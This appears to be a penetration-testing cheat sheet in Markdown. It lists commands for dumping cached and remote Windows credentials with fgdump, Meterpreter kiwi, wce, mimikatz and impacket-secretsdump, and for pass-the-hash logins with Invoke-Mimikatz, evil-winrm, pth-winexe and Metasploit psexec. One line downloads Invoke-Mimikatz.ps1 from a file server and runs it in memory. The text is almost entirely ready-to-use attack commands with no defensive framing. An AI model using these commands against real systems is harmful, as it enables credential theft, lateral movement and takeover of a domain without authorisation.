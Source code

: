 #### Extracting Hashes in cache
* fgdump  
```
fgdump.exe
```
/usr/share/windows-binaries/fgdump/fgdump.exe

* meterpreter  
```
load kiwi
creds_msv
```

* wce-universal (Clear Text password)   
```
wce-universal.exe -w
```
/usr/share/windows-resources/wce/wce-universal.exe 

* mimikatz
```
.\mimikatz.exe
sekurlsa::wdigest -a full  
sekurlsa::logonpasswords
```

* mimikatz - meterpreter  
```
load mimikatz  
wdigest
```

#### Extracting Hashes (Remote)
```
impacket-secretsdump user:password@IP
```

### Pass-The-Hash and Over-Pass-The-Hash
* mimikatz (perform the pass the hash technique for the machine account to elevate access to domain admin)
```
iex (iwr http://<file_server_IP>/Invoke-Mimikatz.ps1 -UseBasicParsing)
Invoke-Mimikatz -Command '"sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<hash> /run:powershell.exe"'
```

* Evil-WinRM  
```
evil-winrm -i <ip> -u <user> -H <hash>
```

* pth.exe  
```
pth-winexe -U user%hash //ip cmd.exe
```

* psexec (msfconsole)  
```
use /exploit/windows/smb/psexec
```
